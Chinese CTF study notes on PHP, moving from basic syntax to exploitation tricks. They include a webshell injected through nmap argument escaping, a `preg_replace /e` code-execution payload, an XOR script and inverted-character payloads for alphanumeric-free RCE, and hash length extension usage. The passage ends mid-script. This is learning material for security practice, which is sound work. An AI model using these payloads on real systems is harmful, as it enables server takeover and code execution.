# PHP 的补充知识点

## 1. 说明

1. 以菜鸟教程以及其评论为主要教材，文章主要进行知识点的补充。

    > https://www.runoob.com/php/php-tutorial.html

## 2. 知识点正文

1. `<?php` 也可以是 `<?=`。

### 2.1 字符串

1. 双引号内可以识别变量，单引号不行：
    ```php
    <?php
    $a = "我是傻逼";
    echo "你是谁？$a"
    ?>
    ```

2. 获取变量类型，除了 `var_dump()`，还有 `gettype()`，实际中使用 `gettype()` 多，因为 `var_dump()` 除了打印数据类型，还会将内容打印，因此其一般用于调试中。

### 2.2 数组

1. `foreach` 遍历关联数组，如果没有 `as` ，则默认获取的是 value：

    ```php
    <?php
    $age=array("Peter"=>"35","Ben"=>"37","Joe"=>"43");
     
    foreach($age as $x)
    {
        echo "value = " . $x;
        echo "<br>";
    }
    ?>
    ```
    
2. 数组在创建的时候自带一个指针，因此可以直接对数组使用 `next()` 函数，详见：[GXYCTF2019]禁止套娃 1。

### 2.3 函数

1. 严格模式，严格规定函数的参数类型。
    ```php
    <?php
    declare(strict_types= 1);
    function plus(int $a, int $b) {
      return $a + $b;
    }
    ?>
    ```

    只要传不同的类型就会报错，不会进行类型转换

2. `global` 关键字和 `static` 关键字。
    `global` 关键字用于函数内部使用全局变量时，需要用 `global` 关键字注明函数内使用的变量是全局变量。
    `static` 修饰的局部变量不会被删除，其值会延续。（不常用）

3. 可以使用 `unset(变量)` 来删除一个变量。但是在局部作用域中，无法删除全局变量。

4. 动态函数执行，即函数名可以存在变量里面：
    ```php
    $a = "system";
    $a("whoami");
    ```

    这是可以执行的。

### 2.4 数组运算符

1. `+` 相同的键不覆盖，如果想要覆盖，采用函数 `array_merge(数组1, ...)`

### 2.5 特殊变量 - 可变变量写法

1. 多个 `$` 的情况：
    ```php
    <?php
        $a = 'test1';
    	$$a = 'test2';
    	$$$a = 'test3';
    	echo $a . "\n"; // 输出 test1
    	echo $test1 . "\n"; // 输出 test2
    	echo $test2 . "\n"; // 输出 test3
    ?>
    ```

2. 对于数组，为了使用数组的可变变量名，需要解决一个歧义问题。如果你写 `$$a[1]`，解析器需要明白究竟你的意思是要把 `$a[1]` 当成一个变量，还是要把 `$$a` 当成变量、这时 `[1]` 指的是这个变量的索引。解决这个歧义问题的语法是：第一种情况使用`${$a[1]}`，第二种情况使用`${$a}[1]`。

3. 如果是 `${function()}`，如果函数有返回值，那么就会变成 `${返回值}`，即 `$返回值`：
    

### 2.6 文件包含

1. `include_once` 和 `require_once` 表示只会引入一次。文件包含的实质就是直接将其他的 PHP 文件内容复制粘贴过来。使用 `_once` 可以避免重复定义问题。 
2. 一般引入公共函数、库时用 `_once` 。

### 2.7 接收输入参数

1. 常见的 `$_GET` 和 `$_POST` 就不用说了，别忘了两者都是数组。

2. 此外全部超级变量数组 `$_SERVER` 也能获取到 URL 中的参数。常见的就是 `$_SERVER[QUERY_STRING]`，该变量获取 `?` 后面的内容。
    细节详见：

    > https://www.cnblogs.com/thinksasa/archive/2012/11/11/2765141.html

    这里想强调的是，`$_SERVER[QUERY_STRING]` 在接收参数时，相对于常见的 `$_GET` 和 `$_POST`，其不会进行 `urldecode()`（但是依旧可以正常接收到参数并赋值到对应变量。），因此当使用 `$_SERVER[QUERY_STRING]` 接收参数时，可以考虑 URL 编码绕过过滤。
    例题：[BJDCTF2020]EzPHP。

3. `$_REQUEST` 数组也能接收 GET 和 POST 的参数（甚至是 Cookie）。其最大的特点是有一个接收的先后顺序（涉及覆盖）。详细内容可见：

    > https://blog.csdn.net/weixin_40675515/article/details/78273404

    一般情况下，POST 相比 GET 传入的内容优先级更高（也就是会覆盖 GET 的内容）。在 CTF 中会涉及到：
    ```php
    if($_REQUEST) { 
        foreach($_REQUEST as $value) { 
            if(preg_match('/[a-zA-Z]/i', $value))  
                die('fxck you! I hate English!'); 
        } 
    }
    ```

    例题：[BJDCTF2020]EzPHP。

## 3. 常用的一些危险函数

1. 能查看到 phpinfo 的尽量查看，可以看到 `disable_functions`。

### 3.1 打印相关

#### 3.1.1 `print_r()`、`var_dump()` 和 `var_export()`

1. 这三个都是打印一个变量的内容。

2. 官方的定义：

    > **print_r()** displays information about a variable in a way that's readable by humans.
    > var_dump — Dumps information about a variable. This function displays structured information about one or more expressions that includes its type and value. Arrays and objects are explored recursively with values indented to show structure.
    > **var_export()** gets structured information about the given variable. It is similar to [var_dump()](https://www.php.net/manual/en/function.var-dump.php) with one exception: the returned representation is valid PHP code.

#### 3.1.2 `file_get_contents()` 和 `highlight_file()`

1. 这两个都是用来打印文件内容的。
2. `file_get_contents()` 返回的结果是 `string`，失败则返回 `false`。
3. `highlight_file()` 就是彩色返回内容。
4. `file_get_contents()` 接收的变量的内容如果外部可控（例如通过 GET），这时需要借助**文件相关的伪协议以传入文件流**，例如 `file` 或者 `data` 伪协议，普通的 `str` 会报错。

### 3.2 文件和文件夹相关操作

#### 3.2.1 `scandir()`

1. 官方解释：

    > Returns an [array](https://www.php.net/manual/en/language.types.array.php) of files and directories from the `directory`.

2. 注意返回结果是 `array`，因此看后续结果就需要借助[变量打印函数。](# 3.1.1 `print_r()`、`var_dump()` 和 `var_export()`)

### 3.3 编码和特殊字符绕过函数

#### 3.3.1 `chr()`

1. 官方解释：

    > This can be used to create a one-character string in a single-byte encoding such as **ASCII, ISO-8859, or Windows 1252**

2. 一般直接输入一个字符的十进制 ASCII 就行。

3. 这个方法就可以绕过一些代码层面上的过滤。

#### 3.3.2 `hex2bin()`


### 3.4 返回值为特殊字符或自定义输入的函数

#### 3.4.1 `localeconv()`

1. 这个函数返回值是一个数组，第一个元素的内容是 `.`；所以可以用于返回一些路径函数，例如 `scandir(current(localeconv))`。

#### 3.4.2 http 头部相关的函数

1. 详见文章：

    > https://blog.csdn.net/Manuffer/article/details/120738755

## 4. PHP 的一些危险特征（和序列化相关的详见 PHP 的序列化部分）

### 4.1 字符串解析特征绕过 waf

1. 直接上图
    

2. 文章参考：

    > https://nosec.org/home/detail/2759.html

3. 以后有机会再验证图片的真实性吧。

### 4.2 PHP 中 MD5 的常见绕过

1. 别人总结的挺好，这里就直接粘贴了，个人补充一下细节：

    > https://blog.csdn.net/iczfy585/article/details/106081299
    > https://blog.csdn.net/CSDNiamcoming/article/details/108837347

2. 有关第一点的 16 进制数，PHP 对其进行 MD5 的 16 进制加密后，生成的实际是 含 16 进制数的字符串。至于后续解析成看得懂的字符的过程，实际上是 MySQL 在操作。在字符串上下文，十六进制字符串中的每一对十六进制数字会根据十六进制的 ASCII 表，被转换成一个字符。

3. PHP 中，GET 或者 POST 所传递的变量的内容，可以是数组。也就是 PHP 的数组语法。同时对于 MD5 绕过中的数组绕过，也可以用于**其他加密**，例如 SHA1，例题：[BJDCTF2020]EzPHP。

4. 以往常见的题型中，使用数组绕过只是为了绕过 `if` 的判断，但是如果绕过的数据还要被当作**字符串**，用于命令执行当中，那么数组绕过就不能使用（因为数组转字符串是有问题的），因此在 PHP7+ 的版本，考虑使用含有 `tostring()` 的内部类。这里普遍使用 PHP 中的 Exception 相关的类：
    ```php
    <?php
    # 不同行不同
    $a = new Error("1", 1);
    $b = new Error("1", 2);
    echo md5($a) . "\n";
    echo md5($b) . "\n";
    echo $a . "\n";
    echo $b . "\n";
    echo "\n";
    # 相同行相同
    $c = new Error("2", 1);$d = new Error("2", 2);
    echo md5($c) . "\n";
    echo md5($d) . "\n";
    ```

    注意使用该方法时，需要保证两个变量**在同一行**定义。因为 `Error` 和 `Exception` 等内置类的 `tostring()`，是包含行号的：
    
    参考例题：[极客大挑战 2020]Greatphp

### 4.3 针对黑名单函数的绕过

1. 某些题目会通过黑名单来限制传入函数，如果只是通过大小写来保证过滤，那么就有绕过的可能。
2. 方法一：PHP 在方法前添加 `\`，用来表示**在当前命名空间内调用全局的方法**。因此可以通过在方法前加 `\` 来绕过黑名单。例如 `\system()`。
3. 方法二：和一类似，通过添加 `@`，表示抑制报错信息。
4. 例题：[网鼎杯 2020 朱雀组]phpweb 1（该题本意是反序列化）。

### 4.4 `preg_replace()` 的 `e` 模式导致的漏洞

1. 简单介绍一下 `preg_replace()`：
    `preg_replace(正则表达式, 替换的字符串 replacement, 被替换的目标字符串 subject)`

2. PHP 中有一个特殊的匹配模式，即 `e` 模式，即 正则表达式为 `/表达式/e`。这个模式 PHP 专有且只用于 `preg_replace()`。该模式表示会将 `replacement` 中的内容当作 PHP 的代码执行，如果 `replacement` 可控，那么就可以执行漏洞。

3. 一般情况下，`replacement` 内容往往是固定的，但是如果在正则中的“反向引用”，则有可利用的情况。

4. 直接上例子：[BJDCTF2020]ZJCTF，不过如此 1。涉及漏洞的代码如下：
    ```php
    <?php
    // re 为 get 的 key，str 为 get 的 value
    function complex($re, $str) {
        return preg_replace(
            '/(' . $re . ')/ei',
            'strtolower("\\1")',
            $str
        );
    }
    
    foreach($_GET as $re => $str) {
        echo complex($re, $str). "\n";
    }
    
    function getFlag(){
    	@eval($_GET['cmd']);
    }
    ```

5. 注意这里的 `replacement` 为 `"\\1"` 且正则表达式中有 `()`。

    > 对一个正则表达式模式或部分模式两边添加圆括号将导致相关匹配存储到一个临时缓冲区中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 **\n** 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。
    >
    > 可以使用非捕获元字符 **?:**、**?=** 或 **?!** 来重写捕获，忽略对相关匹配的保存。
    >
    > 反向引用的最简单的、最有用的应用之一，是提供查找文本中两个相同的相邻单词的匹配项的能力。以下面的句子为例：
    >
    > ```
    > Is is the cost of of gasoline going up up?
    > ```
    >
    > 上面的句子很显然有多个重复的单词。如果能设计一种方法定位该句子，而不必查找每个单词的重复出现，那该有多好。

    简单来说，`()` 用于确定分组，而 `\number` 来捕获特定分组的内容。

6. 以这题的 EXP 为例：
    `next.php?\S*=${phpinfo()}`。
    传入后是 `preg_replace('/(\S*)/ei', 'strtolower("\S* 所匹配的内容")', '${phpinfo()}')`。
    根据正则表达式，这里 `replacement` 就是 `strtolower("${phpinfo()}")`。至于里面的内容为什么会被执行，是因为双引号内的变量会解析；然后就是[特殊变量 - 可变变量](#2.5 特殊变量 - 可变变量写法)的知识点，`phpinfo()` 被执行，函数的返回值会被当成变量名。

### 4.5 Linux 下 `escapeshellarg()` 和 `escapeshellcmd()` 先后套用造成的 RCE

1. 先介绍 `escapeshellarg()`：

    > 摘自官网：
    > **escapeshellarg()** 将给字符串**增加一个单引号**并且能引用或者转义任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含[exec()](https://www.php.net/manual/zh/function.exec.php)、[system()](https://www.php.net/manual/zh/function.system.php) 和[执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 。
    > **在 Windows 上**，**escapeshellarg()** 用空格替换了百分号、感叹号（延迟变量替换）和双引号，**并在字符串两边加上双引号**。此外，每条连续的反斜线(`\`)都**会被一个额外的反斜线**所转义。

2. 再来看 `escapeshellcmd()`：

    > 摘自官网：
    > **escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [exec()](https://www.php.net/manual/zh/function.exec.php) 或 [system()](https://www.php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](https://www.php.net/manual/zh/language.operators.execution.php) 之前进行转义。
    > 反斜线（\）会在以下字符之前插入：`&#;`|*?~<>^()[]{}$\`、`\x0A` 和 `\xFF`。 `'` 和 `"` **仅在不配对**的时候被转义。**在 Windows 平台**上，所有这些字符以及 `%` 和 `!` 字符前面都有一个插入符号（`^`）。

3. 由于 Windows 上 `escapeshellarg()` 有特殊处理，这里以 Linux 平台为主，测试可以用在线的 PHP 工具：https://www.jyshare.com/compile/1/。
    以字符串 `x'y` 为例，经过 `escapeshellarg()`后的结果为：
    `'x'\''y'`，详细来讲，先给中间的 `'` 添加 `'\'` 用来转义，接着在两边添加单引号用于连接。
    再经过 `escapeshellcmd()` 后的结果为：
    `'x'\\''y\'`，详细来讲，就是 `'x'\''y'` 的 `\` 前直接添加 `\` 来转义，末尾的 `'` 是多出来的，还要添加 `\` 来转义。
    在线网站跑出的结果如下：
    
    注意 `var_dump()` 显示的时候外面有一对双引号。

4. 假如一段 Shell 命令的参数可控，例如：[BUUCTF 2018]Online Tool 1
    ```php
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
    ```

    这时假设输入：`'<?php @eval($_POST[1]);?> -oG 123.php'`，最终的结果其实是：
    `''\\''\<\?php @eval\(\$_POST\[1\]\)\;\?\> -oG 123.php'\\'''`。
    

    结合前面的命令，在 Linux 中就是（无用的成对单引号已经去掉）：
    `-F \\\<\?php @eval\(\$_POST\[1\]\)\;\?\> -oG 123.php'\\'`。
    由于 Linux 中反斜杠具有转义的功能，因此特殊符号原本在 Linux 中的特殊含义反而全被“消去”，变成普通的字符。最终执行命令也就是（特殊字符没有了特殊含义）：
    `-F \<?php @eval($_POST[1]);?> -oG 123.php\\`。也就是 `\<?php @eval($_POST[1]);?>` 写入了文件名为 `123.php\\` 的文件当中。
    但是这个文件名访问不到，而且前面 `<` 紧贴一个 `\` 会造成程序报错，因此最终的 payload 前后还要带个空格，即：
    ` ' <?php @eval($_POST[1]);?> -oG 123.php '`。

### 4.6 `intval()` 解析差异

1. 参考文章：

    > https://blog.csdn.net/qq_44879989/article/details/133418606

2. 重点在于低版本下，`intval()` 对科学计数法的解析有问题，导致科学计数失效。

3. 其他类型有关 `intval()` 的绕过：

    > https://blog.csdn.net/wangyuxiang946/article/details/131156104

4. 例题：[WUSTCTF2020]朴实无华 1

### 4.7 变量覆盖

1. 很小的知识点，知道两个函数就行。
2. `unset($变量)` 会将变量销毁。
3. `extract($_GET|$_POST)`，会从 GET 和 POST 中将同名变量的值覆盖掉，例如传 `cmd=calc` 就会将 PHP 中变量 `$cmd` 的内容变成 `calc`。
    扩展一下，其一般形式是 `extract($var)` ，如果 `$var` 可控，那么就可以导致变量覆盖。例如：

    ```php
    $num = 1;
    $var = $_GET['var'];
    extract($var);
    # 这时如果传入 var[num] = 2，那么 $num = 2;
    ```
    
4. 有时候思路还需要扩展一下，题目中虽然没有使用 `extract()`，但是用户是可以控制的，例如 LCTF bestphp's revenge：
    ```php
    <?php
    highlight_file(__FILE__);
    $b = 'implode';
    # 这里是可控点，如果 $_GET['f'] 是 extract，那么就可以导致变量覆盖
    call_user_func($_GET['f'], $_POST);
    session_start();
    if (isset($_GET['name'])) {
        $_SESSION['name'] = $_GET['name'];
    }
    var_dump($_SESSION);
    $a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
    # 如果变量覆盖了，这里就可以再次进行 RCE
    call_user_func($b, $a);
    ?>
    ```

### 4.8 Hash 长度扩展攻击 - 非 PHP 专属

1. 详细介绍可以看：

    > https://wiki.wgpsec.org/knowledge/ctf/Hash-Leng-Extension.html

    密码学的看不懂，直接上使用方法。

2. 网上教程都说用的脚本：

    > git clone https://gitee.com/ljcppp/HashPump

    也可以用 python 中的 Hashpumpy 模块。

3. HashPump 使用：
    

4. Hashpumpy  使用方法：

    ```python
    import hashpumpy
    # 使用函数 hashpumpy，基本和 HashPump 的参数对应
    # hexdigest: 原 Hash 值
    # original_data: 原先的数据部分，即不包含随机数/密钥/密文的数据部分
    # data_to_add: 数据部分想要额外添加的数据
    # key_length: 原先密钥/密文的长度
    # return: 一个元祖，包含新的 Hash 和新的数据部分
    print(hashpumpy.hashpump(hexdigest, original_data, data_to_add, key_length))
    ```

5. 例题：[De1CTF 2019]SSRF Me 1
    上图的 HashPump 的使用图就是该题的解。注意要将 `\x` 转换成 `%` 用于 Web 传输。一定要注意把哪些部分当成密文，哪些部分当成数据。

### 4.9 过滤限制的一些绕过 - 常见是正则的一些过滤

#### 4.9.1 异或、取反、自增（常用于无字符 RCE）

1. 详见这篇文章：

    > https://blog.csdn.net/qq_61778128/article/details/127063407
    > https://mochu.blog.csdn.net/article/details/104631142
    > https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

2. 一般这种题型输入的内容都是当作 PHP 代码执行，那么是可以传入**变量**的。
    之所以强调该内容，是因为通过这些绕过方法获得的内容都是字符串，想要将其执行的话，需要结合 PHP 的[动态函数](#2.3 函数)特性；使用变量来存储字符串的值，然后执行。

3. 当然，如果输入的内容直接进入变量，那么可以不用赋值到变量内，直接 `(编码)(参数)`。

4. 异或关键字的构造分为两种，一种是**一位一位**的构造，然后用 `.` 相连，另外一种就是直接用两个长字符串相连。现在题目中都会限制长度，所以第一种的方法用的不多。脚本如下：
    ```python
    # -*- encoding: utf-8 -*-
    """
    @File    : XOR.py
    @Time    : 2024/7/29 17:00
    @Author  : EndlessShw
    @Email   : 1502309758@qq.com
    @Software: PyCharm
    """
    
    # 从 ASCII 的 128 向后开始。直接使用 ASCII 128 后面的字符可以直接绕过所有可打印字符过滤。
    def getOneChar(char):
        for a in range(128, 255):
            for b in range(128, 255):
                if (a ^ b) == ord(char):
                    return [str(hex(a))[-2:], str(hex(b))[-2:]]
    
    
    # 处理逻辑就是将 10 进制转成 16 进制，不需要什么 URL 编码，也不需要先转换成字符后再转。先转字符的话，一个字符会产生两个 URL 编码。
    def main():
        raw_str = "_GET"
        left_part = ""
        right_part = ""
        for char in raw_str:
            result = getOneChar(char)
            left_part += "%" + result[0]
            right_part += "%" + result[1]
        # ${"_GET"}，根据 ${function()} 变成 ${返回值}，则 ${"_GET"} 等价于 $_GET
        # $_GET{} 等价于 $_GET[]
        result = '$[{}^{}][{}]();&{}=phpinfo'.format(left_part, right_part, str(left_part)[0:3], str(left_part)[0:3])
        print(result.replace('[', '{').replace(']', '}'))
    
    
    if __name__ == '__main__':
        main()
    ```

    该脚本用于执行**单个不带参数函数**，如果需要含参数的话，还需要进行修改。也可以获取 PHP 代码的转换。

5. 取反的构造有一个优点：那就是可以完全用不到**单引号、双引号和字母**。异或的 payload 是 URL 编码，如果在非 GET 和 POST 中，那么**其可能绕不过过滤和 waf。**参考例题：[SUCTF 2018]GetShell 1，这题是上传文件，针对文件内容的过滤，URL 编码没法解析。
    常见的取反一般要么经过**一次 URL 编码**（和异或一样，因为要用于 **GET 和 POST**），要么利用汉字中的某个字符取反。（P 神的思路）这里主要讲第二种，在 P 神的思路上更近一步，汉字可以不用加单双引号：
    
    可以看到在 PHP 5.6.27 中，依旧可以打印出，只不过会包警告和提示，不影响使用。
    给出一个 payload：

    ```php
    <?=
    $_=[];
    $__=($_==$_);
    $_=~(瞰);
    $___=$_[$__];
    $_=~(北);
    $___.=$_[$__];
    $_=~(北);
    $___.=$_[$__];
    $_=~(的);
    $___.=$_[$__];
    $_=~(南);
    $___.=$_[$__];
    $_=~(择);
    $___.=$_[$__];
    $____=~(~(_));
    $_=~(说);
    $____.=$_[$__];
    $_=~(小);
    $____.=$_[$__];
    $_=~(笔);
    $____.=$_[$__];
    $_=~(站);
    $____.=$_[$__];
    $_=$$____;
    $___($_[_]);
    # 来自 https://www.cnblogs.com/z2gh/p/18302990
    # 这个 payload 没有用 [] 来框定字符范围。默认应该取 [1]。
    # 他给出的脚本：
    <?php
     
    header('Content-Type: text/html; charset=utf-8');//防止页面出现乱码
    $str = '当我站在山顶上俯瞰半个鼓浪屿和整个厦门的夜空的时候，我知道此次出行的目的已经完成了，我要开始收拾行李，明天早上离开这里。前几天有人问我，大学四年结束了，你也不说点什么？乌云发生了一些事情，所有人都缄默不言，你也是一样吗？你逃到南方，难道不回家了吗？当然要回家，我只是想找到我要找的答案。其实这次出来一趟很累，晚上几乎是热汗淋漓回到住处，厦门的海风伴着妮妲路过后带来的淅淅沥沥的小雨，也去不走我身上任何一个毛孔里的热气。好在旅社的生活用品一应俱全，洗完澡后我爬到屋顶。旅社是一个老别墅，说起来也不算老，比起隔壁一家旧中国时期的房子要豪华得多，竖立在笔山顶上与厦门岛隔海相望。站在屋顶向下看，灯火阑珊的鼓浪屿街市参杂在绿树与楼宇间，依稀还可以看到熙熙攘攘的游客。大概是夜晚渐深的缘故，周围慢慢变得宁静下来，我忘记白天在奔波什么，直到站在这里的时候，我才知道我寻找的答案并不在南方。当然也不在北方，北京的很多东西让我非常丧气，包括自掘坟墓的中介和颐指气使的大人们；北京也有很多东西让我喜欢，我喜欢颐和园古色古香的玉澜堂，我喜欢朝阳门那块“永延帝祚”的牌坊，喜欢北京鳞次栉比的老宅子和南锣鼓巷的小吃。但这些都不是我要的答案，我也不知道我追随的是什么，但想想百年后留下的又是什么，想想就很可怕。我曾经为了吃一碗臭豆腐，坐着优步从上地到北海北，兴冲冲地来到那个垂涎已久的豆腐摊前，用急切又害羞的口吻对老板说，来两份量的臭豆腐。其实也只要10块钱，吃完以后便是无与伦比的满足感。我记得那是毕业设计审核前夕的一个午后，五月的北京还不算炎热，和煦的阳光顺着路边老房子的屋檐洒向大地，但我还是不敢站在阳光下，春天的燥热难耐也绝不输给夏天。就像很多人冷嘲热讽的那样，做这一行谁敢把自己完全曝光，甭管你是黑帽子白帽子还是绿帽子。生活在那个时候还算美好，我依旧是一个学生，几天前辞别的同伴还在朝九晚五的工作，一切都照旧运行，波澜不远走千里吃豆腐这种理想主义的事情这几年在我身上屡屡发生，甚至南下此行也不例外。一年前的这个时候我许过一个心愿，在南普陀，我特为此来还愿。理想化、单纯与恋旧，其中单纯可不是一个多么令人称赞的形容，很多人把他和傻挂钩。“你太单纯了，你还想着这一切会好起来”，对呀，在男欢女爱那些事情上，我可不单纯，但有些能让人变得圆滑与世故的抉择中，我宁愿想的更单纯一些。去年冬天孤身一人来到北京，放弃了在腾讯做一个安逸的实习生的机会，原因有很多也很难说。在腾讯短暂的实习生活让我记忆犹新，我感觉这辈子不会再像一个小孩一样被所有人宠了，这些当我选择北漂的时候应该就要想到的。北京的冬天刺骨的寒冷，特别是2015年的腊月，有几天连续下着暴雪，路上的积雪一踩半步深，咯吱咯吱响，周遭却静的像深山里的古刹。我住的小区离公司有一段距离，才下雪的那天我甚至还走着回家。北京的冬天最可怕的是寒风，走到家里耳朵已经硬邦邦好像一碰就会碎，在我一头扎进被窝里的时候，我却慢慢喜欢上这个古都了。我想到《雍正皇帝》里胤禛在北京的鹅毛大雪里放出十三爷，那个拼命十三郎带着令牌取